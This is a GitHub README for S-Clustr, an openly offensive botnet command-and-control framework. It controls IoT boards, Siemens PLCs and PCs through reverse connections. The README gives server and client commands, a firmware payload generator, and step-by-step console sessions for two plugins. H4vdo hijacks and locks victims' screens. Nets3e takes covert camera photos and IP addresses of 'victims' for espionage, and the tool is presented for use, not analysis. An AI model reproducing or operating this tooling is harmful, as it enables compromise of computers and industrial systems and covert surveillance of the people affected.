



<h1 align="center" style="color: #00FF00; font-family: 'Lucida Console', Monaco, monospace; text-shadow: 2px 2px 10px #FF0000, 4px 4px 20px #000000; font-size: 3em;">
  S-Clustr (Shadow Cluster)
</h1>

  
  
  
  
  
  
  
  
  
  

# Security Update Announcement

**Version:** 3.2  
**Date:** 2024/8/9

---

Dear Users,

We wish to inform you about a critical security vulnerability found in versions of **S-Clustr (RingNetwork)** up to and including version 3.1 (excluding the Simple version). This vulnerability involves a high-risk encoding attack that can severely impact botnet nodes by causing disconnections, leading to potential system instability.

## Vulnerability Details:

- **Issue:** High-risk encoding attack vulnerability
- **Affected Versions:** S-Clustr (RingNetwork) <= 3.1 (excluding Simple version)
- **Impact:** Disconnection of botnet nodes and potential system instability

## Resolution:

The issue has been effectively addressed and resolved in version 3.2. We strongly recommend that all users upgrade to this version to prevent disconnections and ensure system stability.

## Upgrade Instructions:

1. **Download** the latest version from [GitHub Releases](https://github.com/MartinxMax/S-Clustr/releases).
2. **Follow the installation instructions** provided in the documentation to complete the update.

---

# Overview

| **No.** | **Feature Description** |
|:-------:|:------------------------:|
| **1**  | Dual-key encryption & pseudo-protocol transmission |
| **2**  | Anonymous mode for node access |
| **3**  | Defense against replay attacks from other hackers |
| **4**  | Decentralized, where each server can act as a root node (child nodes can join the network using a ring key), with up to 50,000 controlled devices per node |
| **5**  | Ring network circle (a club of zombie networks) |
| **6**  | Efficient handling of high-concurrency traffic |
| **7**  | Support for multiple device types (personal computers/IT devices, IOT devices, OT devices) |
| **8**  | Reverse connection support for multiple programming languages (C, C++, Go, Python, Java, etc., with network communication capabilities) |

## Devices

| **Type**  | **Device**         | **LAN** | **Wireless** | **4G** |
|-----------|--------------------|---------|--------------|--------|
| **IOT**   | Arduino            | √       | ×            | √      |
| **IOT**   | Hezhou AIR780e     | ×       | ×            | √      |
| **IOT**   | ESP8266            | ×       | √            | ×      |
| **IOT**   | AT89C51            | ×       | ×            | √      |
| **IOT**   | STM32              | ×       | ×            | √      |
| **OT/PLC**| SIEMENS S7-1200   | √       | ×            | ×      |
| **OT/PLC**| SIEMENS S7-200    | √       | ×            | ×      |
| **IT**    | PC                 | √       | √            | ×      |

# Install

`$ cd ./install`

Choose the appropriate installer based on your operating system.

## Windows

`> Windows.bat`

## Linux

`$ chmod +x ./Linux.sh`

`$ ./Linux.sh`

# Core Concepts

## Dual Key Authentication & Constructing Pseudo Protocols

S-Clustr (Shadow Cluster) introduces the concept of dual-key authentication in version 3.0.

By encrypting data, it ensures the data security of anonymous connections.

## Decentralized & Distributed Control

In the diagram, each server can become a root node. To join nodes, we need to provide a ring network key to join this Club. When connecting to the Root node server, you will have the highest control authority over all devices within the included nodes. However, to protect node security, you need to provide the node key (not everyone will trust you without reservation).

# Ring Network Formation

# Overview

In practice, no more than 2 devices are required (of course, the more machines that join your Club, the more you can do). If you are a server, it is entirely feasible.

# Server

`$ java -jar s_clustr-server-3.0.jar -h`

### Root Node Server

Regardless of whether you are on Windows or Linux, you can deploy the server.

`$ java -jar s_clustr-server-3.0.jar -nkey whoami123 -rkey h4ck13io`

Node key: whoami123
Ring key: h4ck13io

### Child Node Server

Windows2:

`$ java -jar s_clustr-server-3.0.jar -nkey FVckG4me -rkey h4ck13io -rootip 192.168.8.107`

Join the ring network, becoming a node.

Node key: FVckG4me
Ring key: h4ck13io

For testing, another child node needs to be added.

Windows:

`$ java -jar s_clustr-server-3.0.jar -nkey OPOPOPOP -rkey h4ck13io -rootip 192.168.8.107`

Node key: OPOPOPOP
Ring key: h4ck13io

# Anonymous Client

`$ java -jar s_clustr-client-3.0.jar`

Configure `set root-host`, `set node-key`, `set ring-key` information.

`[S-H4CK13@S-Clustr]<3.0># init`

Initialize and try to connect to the Root server.

After a successful connection, a root node identifier will appear.

## Retrieve Root Node Device Status

Ensure you are in the root node device status.

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 0`

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 3`

## Retrieve Child Node Status

In root node status, enter the `getinfo` command to retrieve the status of all nodes.

## Enter Node

In root node status, enter the `goto <Node ID>` command to enter the node. Enter the `exit` command to exit the current node.

## Node Device Control

Determine the current node location and choose to set the pwr parameter behavior [1. Start 2. Stop 3. Status query]

Control must be confirmed with the correct node key for the current node where you are controlling.

Node server:

Simulated controlled client:

Similarly, you can specify the type to stop using the `set type ` parameter.

# S-Clustr IOT

## Wired LAN Control

### Arduino

1.Arduino UNO

2.ENC28J60

3.1-Channel Relay Module 5V

4.Dupont Wires

### Wiring Diagram

## 4G Wireless Public Network Remote Control

### Arduino

1.Arduino UNO

2.SIM900A or SIM800A

2.1-Channel Relay Module 5V

3.Dupont Wires

4.4G SIM Card

*The mobile SIM card is needed because the SIM800A and SIM900A modules support 2G networks from Mobile but not from Telecom or Unicom. However, after testing, the Airm2m AIR780e module should work with Unicom, so there will be no need for SIM series modules as it has internal integration.*

### Wiring Diagram

### AIR780E [recommend]

1.After testing, this development board is indeed faster and more stable than the SIM series.
2.Install Luatools: Used for completing program flashing

[https://doc.openluat.com/wiki/37?wiki\_page\_id=4489]

1.Air780e

*There is a SIM card slot on the back.*

2.1-Channel Relay Module 5V

3.Dupont Wires

### Wiring Diagram

### Flash

*Import the file we generated with Generate into Luatools.*

*Select the underlying core. The file is provided in our Output\AIR780E\LuatOS-SoC_V1103_EC618.soc*

*Follow the prompts to complete the flashing process. Note the three buttons on the board: Start, Reset, and BOOT.*

### AT89C51

1.51 Microcontroller & CH340 Programmer

2.1-Channel Relay Module 5V

3.Dupont Wires

4.SIM900A or SIM800A

5.4G SIM Card

### Wiring Diagram

## WIFI

### ESP8266

1.ESP8266

2.1-Channel Relay Module 5V

3.Dupont Wires

### Wiring Diagram

# Generate.py Device Firmware Code

`$ python3 generate.py`

Reverse S-Clustr Server IP.

Generate code in the corresponding directory:./Device/Output/arduino

# S-Clustr OT

## SIEMENS S7-1200

Open the `./device/output/SIEMENS-PLC-S7-1200/Main` project using TIA software, and configure the IP and port for our reverse S-Clustr.

# S-Clustr IT

# Plugin

## H4vdo (Hacker Voodoo)

### Overview

H4vdo is an S-Clustr plugin that allows batch control of malicious screen casting services through a shadow cluster. It locks device-side operations and plays streaming video (live streams, MP4s, desktop casting) without causing significant data loss or damage to the system.

You can download the standalone tool (non-plugin version) from the repository at https://github.com/MartinxMax/H4vdo.

## RTMP Server

`$ python3 generate.py`
`[Device Type (Number)]> 7`
`[+] [0] Start RTMP server [1] Skip> 0`

### RTMP Payload

`$ python3 generate.py`
`[Device Type (Number)] > 7`
`[+] [0] Start RTMP server [1] Skip > 1`
`[+] RTMP server IP > 192.168.8.106`
`[+] RTMP server PORT > 1935`
`[+] Play key > hacked`
`[+] What is the version of python you want to execute?([0]python [1]python3)> 0`
`[+] [0] Generate payload [1] Push RTMP stream > 0`

### RTMP Stream Push

`$ python3 generate.py`
`[Device Type (Number)] > 7`
`[+] [0] Start RTMP server [1] Skip> 1`
`[+] RTMP server IP > 192.168.8.106`
`[+] RTMP server PORT > 1935`
`[+] Play key > hacked`
`[+] What is the version of python you want to execute?([0]python [1]python3)> 0`
`[+] [0] Generate payload [1] Push RTMP stream > 1`
`[0] Push media mp4 [1] Push desktop screen [2] Push camera> 0`
`MP4 file path: xxxx.mp4`

### Example

1.Customize and modify ./demo/H4vdo/H4vdo_demo.py to update the server IP and port for the S-Clustr.
2.Click H4vdo_demo_generate.bat to package it into an executable file.
3.Place ./demo/H4vdo/H4vdo_demo.exe into the generated ./device/output/H4vdo/H4vdo_debug folder, and finally upload the entire folder to the target.

When executing H4vdo_demo.exe, the shadow cluster will first receive a reverse connection.

`SHELL> ./H4vdo_demo.exe`

*Query Status*

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 3`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set id 0`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# run`

*Run Payload*

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 1`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set id 1`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# run`

Stream playback on the host screen

## Nets3e

### Overview

Nets3e is an S-Clustr plugin primarily used for camera photography and IP acquisition. When you connect to the shadow cluster, you can batch control hosts, issue commands to devices under sub-nodes, and send captured photos and IP addresses to the Nets3e server for espionage activities.

Nets3e itself has another independently constructed pseudo-protocol encryption, which means that Nets3e can also be regarded as a standalone espionage tool.

You can download the standalone tool (non-plugin version) from the repository at https://github.com/MartinxMax/Nets3e.

### Nets3e Server

`$ python3 generate.py`
`[Device Type (Number)]>6`
`[+] Nets3e Server IP >192.168.8.106`
`[+] Nets3e Server Port >10099`
`[+] Nets3e Salt(password) >Maptnh`
`[+] Frp or Ngrok Server IP(default blank) >`
`[+] Frp or Ngrok Server Port(default blank)>`
`[+] Enable DingTalk Push?[./plugin/Nets3e/DingTalk.conf](y/n) >n`
`[+] Let the victim see their own photos?(y/n) >y`
`[+] What is the version of python you want to execute?([0]python [1]python3) >1`
`[+] What you need to do?([0]only generate payload [1]only start server [2]generate and start server [3]exit)>1`

### Nets3e Payload

In `./plugin/Nets3e/GETIP.conf`, you need to ensure that the API endpoint for obtaining the public IP is functional. The returned result must be a plain text IP address.

`[Device Type (Number)]>6`
`[+] Nets3e Server IP >192.168.8.106`
`[+] Nets3e Server Port >10099`
`[+] Nets3e Salt(password) >Maptnh`
`[+] Frp or Ngrok Server IP(default blank) >`
`[+] Frp or Ngrok Server Port(default blank)>`
`[+] Enable DingTalk Push?[./plugin/Nets3e/DingTalk.conf](y/n) >n`
`[+] Let the victim see their own photos?(y/n) >y`
`[+] What is the version of python you want to execute?([0]python [1]python3) >0`
`[+] What you need to do?([0]only generate payload [1]only start server [2]generate and start server [3]exit)0`

### Example

1.Customize and modify ./demo/Nets3e/Nets3e_demo.py to update the server IP and port for the S-Clustr.
2.Click Nets3e_demo_generate.bat to package it into an executable file.
3.Place the executable programs from `./device/output/Nets3e/Nets3eClient_debug.exe` and `./demo/Nets3e/Nets3e_demo.exe` into any folder of your choice.

`SHELL> ./Nets3e_demo.exe`

*Query Status*

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 3`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set id 0`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# run`

*Run Payload*

`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set pwr 1`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# set id 1`
`[S-H4CK13@S-Clustr]<3.0>@000C29EC84FE# run`

The directory ./plugin/Nets3e/IP_Photo contains photos of all devices.

Since we selected the option `Let the victim see their own photos? (y/n) > y`, the device will also see its own photo.

